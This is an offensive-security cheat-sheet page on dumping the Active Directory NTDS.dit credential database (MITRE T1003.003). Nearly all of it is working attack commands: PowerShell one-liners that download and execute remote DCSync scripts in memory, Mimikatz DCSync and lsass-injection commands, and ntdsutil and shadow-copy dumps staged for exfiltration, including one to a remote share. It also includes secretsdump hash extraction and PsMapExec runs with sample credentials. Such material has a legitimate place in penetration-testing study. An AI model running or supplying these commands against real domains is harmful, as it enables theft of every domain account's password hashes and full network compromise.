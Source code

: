 ```yaml
---
description: https://attack.mitre.org/techniques/T1003/003/
---
```


# NTDS

**ATT\&CK ID:** [T1003.003](https://attack.mitre.org/techniques/T1003/003/)

**Permissions Required:** <mark style="color:red;">**Administrator**</mark> | <mark style="color:red;">**SYSTEM**</mark>

**Description**

Adversaries may attempt to access or create a copy of the Active Directory domain database in order to steal credential information, as well as obtain other information about domain members such as devices, users, and access rights. By default, the NTDS file (NTDS.dit) is located in `%SystemRoot%\NTDS\Ntds.dit` of a domain controller.

In addition to looking for NTDS files on active Domain Controllers, adversaries may search for backups that contain the same or similar information.

## Techniques

### Invoke-DCsync (PentestFactory)

**URL:** [https://github.com/pentestfactory/Invoke-DCSync](https://github.com/pentestfactory/Invoke-DCSync)

Invoke-DCsync pulls Mimikatz,PowerView and ADRecon from Github into memory and then performs DCSync.

```powershell
# Load into memory
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/pentestfactory/Invoke-DCSync/main/Invoke-DCSync.ps1")

# Execute
Invoke-DCSync
```

![](../../../../.gitbook/assets/Invoke-DCsync.png)

### Invoke-DCSync (S3cur3Th1sSh1t)

```powershell
# Load into memory
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-DCSync.ps1")

# Execute
Invoke-DCSync -dcfqdn DC01.security.local -username administrator
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Metasploit

```
use auxiliary/admin/smb/psexec_ntdsgrab
```

![](<../../../../.gitbook/assets/image (223).png>)

`secretsdump.py` can then be used to pull hashes from the `ntds.dit` database using the SYSTEM hive file (ref: secretsdump.py further down).

### Mimikatz

```powershell
# Dump hashes for a specified users
Invoke-Mimikatz -command '"lsadump::dcsync /domain:security.local /user:moe"'

# Dump hashes for all users
Invoke-Mimikatz -command '"lsadump::dcsync /domain:security.local /all"'

# Dump hashes by injecting into the lsass process on the Domain Controller
Invoke-Mimikatz -command '"lsadump::lsa /inject"'
```

![](../../../../.gitbook/assets/Mimikatz-user.png)

### ntdsutil.exe (Native)

With access to the Domain Controller its possible to run the `ntdsutil.exe` native binary to dump SAM, SYSTEM and ntds.dit ready for exfiltration.

```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\Exfiltration' q q"

# Dump to remote share
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full \\10.10.10.10\Share\Exf' q q"
```

![](../../../../.gitbook/assets/ntdsutil.exe.png)

Viewing the contents of `c:\Exfiltration` we see the files.

![](<../../../../.gitbook/assets/ntdsuitl.exe results (1).png>)

Secretsdump we can be used against these files for extraction as shown in the `secretsdump.py` section below.

### Secretsdump.py

```bash
# With valid credentials
secretsdump.py security.local/moe:Password123@10.10.10.100 -just-dc-ntlm
```

![](<../../../../.gitbook/assets/image (249).png>)

```bash
# Dump from exfiltrated ntds.dit and SYSTEM files.
sudo secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

![](<../../../../.gitbook/assets/image (1302).png>)

```bash
# Dump results from ntdsutil.exe method
secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit LOCAL
```

### PsMapExec

```powershell
# As current user
PsMapExec -Targets DCs -Method SMB -Module NTDS

# As a specified user
PsMapExec -Targets DCs -Method SMB -Module NTDS -Username Administrator -Password Password123!
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Volume Shadow Copy

```bash
# Create VSS snapshot of system drive
vssadmin create shadow /for=C:

# create a copy of NTDS.dit and SYSTEM then move to C:\Exfiltration
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit C:\Exfiltration
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\System32\config\SYSTEM C:\Exfiltration
```

![](../../../../.gitbook/assets/vss-copy.png)

The NTDS.dit and SYSTEM files can be exfiltrated off the system and used with a tool such as `secretsdump.py` for hash extraction.
